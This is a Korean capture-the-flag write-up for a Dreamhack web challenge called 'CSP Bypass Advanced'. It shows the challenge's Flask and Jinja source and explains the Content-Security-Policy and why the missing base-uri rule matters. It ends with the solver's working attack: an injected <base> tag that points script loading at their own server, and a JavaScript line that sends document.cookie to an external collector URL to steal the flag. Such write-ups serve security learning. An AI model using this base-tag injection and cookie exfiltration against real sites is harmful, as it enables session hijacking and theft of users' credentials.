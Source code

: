 https://honey-push-30b.notion.site/CSP-Bypass-Advanced-3b710ab686fe4bcc8996c97bb03f2c46

# 문제파일 다운로드

![문제파일 다운로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cb9ebaa1-7850-4f4d-bd74-0e7601a85b45/%EB%AC%B8%EC%A0%9C%ED%8C%8C%EC%9D%BC_%EB%8B%A4%EC%9A%B4%EB%A1%9C%EB%93%9C.png)

CSP Bypass Advanced 문제파일을 다운로드 받으면 다른 문제와 다르게 app.py만 있는 것이 아니라 vuln.html이 같이 있는 것을 확인할 수 있다.

일단 먼저 app.py를 확인해보자.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return render_template("vuln.html", param=param, nonce=nonce)

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'

memo_text = ""

@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)

app.run(host="0.0.0.0", port=8000)
```

/flag페이지에서 POST로 원하는 값을 입력하여 서버측 쿠키를 가지고 vuln페이지에 param으로 전달하여 실행해준다.  

이제 기존 CSP Bypass 문제와 달라진 것이 vuln페이지에서 실행된 값을 그대로 출력해 주는 것이 아니라 vuln.html 페이지 template으로 리턴해준다. 이 템플릿이 바로 문제파일을 다운로드 해서 준 vuln.html이다.

vuln.html을 열어보면 아래와 같은 형태임을 볼 수 있다.

 

![vuln페이지.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5bf1e88e-4f3c-4e9b-b5e4-b3d3d8cfcc1a/vuln%ED%8E%98%EC%9D%B4%EC%A7%80.png)

```python
{% extends "base.html" %}
{% block title %}Index{% endblock %}

{% block head %}
  {{ super() }}
  <style type="text/css">
    .important { color: #336699; }
  </style>
{% endblock %}

{% block content %}
  {{ param | safe }}
{% endblock %}
```

이는 {% %} 는 템플릿이며 jinja를 기본으로 하는 템플릿이다.

여기서 param으로 전달받은 값이 {{ param }}위치에 들어가는 것은 알 수 있는데 | safe가 추가되어 있는 것을 볼 수 있다. 이게 무슨 뜻인지 찾아본 결과 safe가 추가되어있으면 < 이나 >같은 특수문자들을 그대로 출력할 수 있게 해준다. 즉 safe가 없으면 &가 &amp;로 출력되는데 safe를 해주면 &로 그대로 출력이 된다. (그러면 더 위험한거 아닌가 싶은데 왜 safe인지 모르겠음)

즉 내가 <script>과 같이 param으로 전달해주면 <>이 변환이 되지 않고 그대로 쓰여져서 내가 태그를 넣을 수 있다는 사실을 알았다.

자 그러면 app.py에서 CSP 정책을 살펴보자

```python
@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response
```

response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'; object-src 'none'"

1. default 즉 따로 정의 되어 있지 않으면 기본적으로 내부 페이지의 자원은 self(127.0.0.1) 즉 같은 오리진에 있어야한다. 
2. img 태그의 경우 [https://dreamhack.io로](https://dreamhack.io로) 시작하는 경로에 있어야한다.
3. style 태그의 경우 인라인 태그를 허용하며 내부 페이지의 자원이 self로 부터 즉 같은 오리진에 있어야 한다. 
4. script 태그또한 같은 오리진에서 있어야 하며 nonce값이 일치해야한다.
5. object의 출처는 어떤것이든 허용하지 않는다.

- 오리진이란? → 도메인 + 프로토콜+포트번호
    
    오리진과 비슷한 개념으로는 도메인(domain)이 있다. 둘 사이의 구체적인 예로는 아래와 같다.
    
    - 도메인(domain): naver.com
    - 오리진(origin): [https://www.naver.com/PORT](https://www.naver.com/PORT)
    
    이와 같이 도메인과 오리진의 차이는 프로토콜과 포트번호의 포함 여부이다.
    

여기서 취약한점은 <base> 태그가 설정이 되어있지 않다는 점이다. 따로 정의되어 있지 않은 경우 default를 따르지만 base태그는 예외로 default를 따르지 않기에 base 태그가 안되어 있어 삽입을 할 수 있다면 공격의 여지가 있다.

![vuln페이지 삽입.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/544f07a4-ff9c-4155-9a9c-b337f8547fed/vuln%ED%8E%98%EC%9D%B4%EC%A7%80_%EC%82%BD%EC%9E%85.png)

그리고 vuln페이지를 살펴보면 하단에 script src=”/static/js/jquery.min.js” 와 같이 내부 스크립트를 불러오는 것을 볼 수 있는데 이는 상대경로로 작성이 되어 있어 base태그를 이용해 내 웹서버를 가리키게 하고 내 웹서버의 /static/js/jquery.min.js를 가리키게 한다면 self(같은 오리진)도 충족시키고 내가 원하는 스크립트를 실행시킬 수 있다.

웹서버는 [https://itadventure.tistory.com/372](https://itadventure.tistory.com/372) 를 참고해서 AWS를 이용하여 웹서버를 구축했다. 이 과정을 따라서 만든 웹서버의 경우 nginx서비스를 이용하였으며 블로그에 써져있듯이 웹 서버에 접속하게 되면 처음으로 뜨는 index.html의 경로가 `/usr/share/nginx/html/index.html` 임을 알 수 있다.

그러면 우리가 base 태그를 이용하여 저 웹서버를 가리키게 하면 /usr/share/nginx/html이 기본적인 위치임을 알 수 있으므로 /usr/share/nginx/html로 이동후 static 폴더를 만들고 그 내부에 js 폴더를 만들고 jsquery.min.js 파일을 만들어서 다음과 같은 스크립트를 작성했다.

location.href="[http://host3.dreamhack.games:17165/memo?memo=hi](http://host3.dreamhack.games:17165/memo?memo=hi)" 를 작성한 후 flag페이지에서 아래와 같은 base 태그를 삽입해보았다. 참고로 이 때 웹서버의 주소는 블로그에도 나와있듯이 내 웹서버의 퍼블릭 IPv4 DNS 주소를 복사하면 된다.

```python
<base href="http://ec2-13-124-195-124.ap-northeast-2.compute.amazonaws.com">
```

![hi가 성공한 모습.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a69606cf-eff6-4d06-8b1f-e1296691752f/hi%EA%B0%80_%EC%84%B1%EA%B3%B5%ED%95%9C_%EB%AA%A8%EC%8A%B5.png)

정상적으로 hi가 memo에 적혀있는 것을 볼 수 있다. 즉 내가 원하는 스크립트를 실행시키는 것을 달성했으므로 이제 cookie값을 빼내기만 하면 된다. 

location.href에 host3.dreamhack~~의 uri를 이용해서 memo에 출력하려고 했는데 잘 안되길래 dreamhack tools 서비스를 이용하여 내 링크에 보내도록 스크립트를 짰다.

![성공한 js 파일의 내용.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b546a894-67f7-45a1-bce0-c265f88ebf49/%EC%84%B1%EA%B3%B5%ED%95%9C_js_%ED%8C%8C%EC%9D%BC%EC%9D%98_%EB%82%B4%EC%9A%A9.png)

`location.href="[https://nhxkhmb.request.dreamhack.games?memo=](https://nhxkhmb.request.dreamhack.games/?memo=)"+document.cookie`

그리고 나서 다시 `<base href="http://ec2-13-124-195-124.ap-northeast-2.compute.amazonaws.com">`를 flag 페이지에서 입력하여 vuln페이지에 삽입해주면

![성공!!.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/69b76178-4ee5-4e25-8115-4300075d906f/%EC%84%B1%EA%B3%B5!!.png)

`flag=DH{833a8a65e3907796ccc447ff75e1dfe6}` 플래그 값을 받아온 것을 볼 수 있다.
